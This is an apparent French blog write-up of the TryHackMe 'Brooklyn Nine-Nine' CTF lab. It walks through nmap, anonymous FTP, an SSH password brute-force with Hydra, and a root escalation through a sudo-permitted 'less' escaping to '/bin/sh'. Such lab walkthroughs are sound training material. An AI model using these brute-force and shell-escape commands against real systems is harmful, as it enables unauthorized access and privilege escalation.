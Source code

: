 ```yaml
---
title: "Write-up : TryHackMe - Brooklyn Nine-Nine"
date: 2025-04-22T09:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["TryHackMe", "CTF", "Linux", "FTP", "SSH", "Sudo", "Less"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution pas à pas du challenge TryHackMe Brooklyn Nine-Nine, de la reconnaissance à l'accès root."
image:
  src: /images/bkrl99.png 
  alt: "Bannière pour le write-up Brooklyn Nine-Nine"
---
```


<!--more-->

# **Write-up : TryHackMe - Brooklyn Nine-Nine**

{{< admonition info "Informations sur la Room" >}}
*   **Nom :** Brooklyn Nine-Nine
*   **Plateforme :** TryHackMe
*   **Lien :** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)
*   **Difficulté Annoncée :** Facile (Easy)
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
{{< /admonition >}}

## **Introduction**

Ce challenge nous plonge dans l'univers de la série Brooklyn 99. Notre mission est de compromettre le serveur utilisé par l'équipe et de récupérer les flags utilisateur et root, en exploitant probablement quelques faiblesses laissées par nos personnages préférés.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Comme toujours, commençons par un scan Nmap pour identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_SERVEUR>
# -sC: Utilise les scripts Nmap par défaut
# -sV: Tente de déterminer la version des services
```

![](/images/nmap1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts principaux :

*   **Port 21 (FTP) :** vsftpd - Permet la connexion anonyme (`Anonymous FTP login allowed`). C'est une piste prioritaire !
*   **Port 22 (SSH) :** OpenSSH
*   **Port 80 (HTTP) :** Apache
{{< /admonition >}}

### **2. Exploration FTP**

La possibilité de connexion anonyme sur le FTP est une piste intéressante. Connectons-nous :

```bash
ftp -p <IP_SERVEUR> <PORT>
# Nom : Anonymous
# Mot de passe : <laisser vide>
```

Une fois connecté, on liste les fichiers et on trouve la note : `note_to_jake.txt`. Téléchargeons-la (`get note_to_jake.txt`) et examinons son contenu (`cat note_to_jake.txt`).

![](/images/ftp2.png)

{{< admonition tip "Indice Crucial de la Note FTP" >}}
La note mentionne que Jake a un mot de passe très faible. (ça lui ressemble bien)
C'est une information capitale pour la suite !
{{< /admonition >}}

### **3. Exploration Web (HTTP)**

Avant de tenter le brute-force, jetons un œil au serveur web sur le port 80. La page d'accueil par défaut d'Apache ne révèle rien d'immédiat. Utilisons `feroxbuster` (ou `gobuster`/`dirb`) pour chercher des répertoires ou fichiers cachés.

```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP_SERVEUR>/
# -w : Spécifie la wordlist
# -u : L'URL cible
```

Malgré l'énumération web, aucun répertoire ou fichier intéressant n'a été découvert lors de cette étape.

## **Phase 2 : Exploitation - Accès Initial (User Flag)**

### **Brute-force SSH avec Hydra**

Forts de l'indice trouvé dans la note FTP ("mot de passe très simple" pour l'utilisateur "jake"), nous allons tenter une attaque par brute-force sur le service SSH (port 22) en utilisant Hydra. Nous utiliserons `rockyou.txt`, une wordlist très commune, en espérant y trouver le mot de passe faible.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP_SERVEUR>/ -f
# -l jake : Spécifie le nom d'utilisateur cible
# -P /usr/share/wordlists/rockyou.txt : Spécifie le fichier de mots de passe
# ssh://<IP_SERVEUR>/ : Spécifie le service et l'hôte cible
# -f : Arrête Hydra dès qu'un mot de passe valide est trouvé
```

![](/images/hydra3.png)

Succès ! Hydra trouve rapidement le mot de passe : `987654321`.

### **Connexion SSH et Flag Utilisateur**

Connectons-nous maintenant en SSH avec les identifiants trouvés :

```bash
ssh jake@<IP_SERVEUR>
# Entrer le mot de passe : 987654321
```

Une fois connecté, nous cherchons le flag utilisateur (`user.txt`). Après un peu d'exploration (ou en suivant les conventions habituelles), on le trouve dans le répertoire `/home/holt`. Clin d'œil amusant à la série !

```bash
ls /home/holt/
cat /home/holt/user.txt
```

![](/images/ssh4.png)

**Flag Utilisateur Obtenu !**

---

## **Phase 3 : Élévation de Privilèges (Root Flag)**

### **Vérification des Privilèges Sudo**

Maintenant que nous avons un accès en tant que `jake`, cherchons comment devenir `root`. Une des premières commandes à vérifier est `sudo -l`, qui liste les commandes que l'utilisateur actuel peut exécuter avec `sudo`.

```bash
sudo -l
```

{{< admonition warning "Résultat Sudo - Porte Ouverte !" >}}
La sortie indique que l'utilisateur `jake` peut exécuter la commande `/usr/bin/less` en tant que `root` sans mot de passe (`NOPASSWD`). C'est une faille de configuration classique !
```text
User jake may run the following commands on :
    (ALL : ALL) NOPASSWD: /usr/bin/less
```
{{< /admonition >}}

### **Exploitation via `less` (GTFOBins)**

Certains binaires Linux, même ceux qui semblent inoffensifs comme `less` (un paginateur de texte), peuvent être détournés pour obtenir un shell s'ils sont exécutés avec des privilèges élevés. Le site [GTFOBins](https://gtfobins.github.io/) est une ressource fantastique pour trouver de telles techniques.

En cherchant `less` sur GTFOBins, nous trouvons une section "Sudo".

{{< admonition tip "Technique d'Exploitation `less` (GTFOBins)" >}}
La technique est simple :
1.  Exécuter `less` via `sudo` sur n'importe quel fichier (par exemple `/etc/profile`).
2.  Une fois dans l'interface de `less`, taper `!/bin/sh` (ou `!/bin/bash`). Le `!` permet d'exécuter une commande shell depuis `less`.

Appliquons cela :
```bash
sudo less /etc/profile
```
Puis, dans `less`, tapez :
```sh
!/bin/sh
```
Appuyez sur Entrée.
{{< /admonition >}}

### **Accès Root et Flag Root**

Nous sommes maintenant `root`. Il ne reste plus qu'à récupérer le flag final, généralement situé dans `/root/root.txt`.

```bash
# cd /root
# ls
root.txt
# cat root.txt
```

![](/images/root5.png)

**Flag Root Obtenu ! Challenge Terminé !**

## **Conclusion**

Ce challenge "Brooklyn Nine-Nine" était une excellente introduction aux concepts de base du CTF :

1.  **Énumération :** Scan de ports (Nmap), découverte de services (FTP anonyme, SSH, HTTP), énumération web (feroxbuster).
2.  **Exploitation :** Utilisation d'indices (note FTP) pour cibler une attaque (brute-force SSH avec Hydra).
3.  **Élévation de Privilèges :** Vérification des permissions `sudo` (`sudo -l`) et exploitation d'une mauvaise configuration via un binaire autorisé (exploitation de `less` via GTFOBins).

C'était une room amusante et bien thématisée, parfaite pour les débutants.

> PS : Jake change de mdp stp
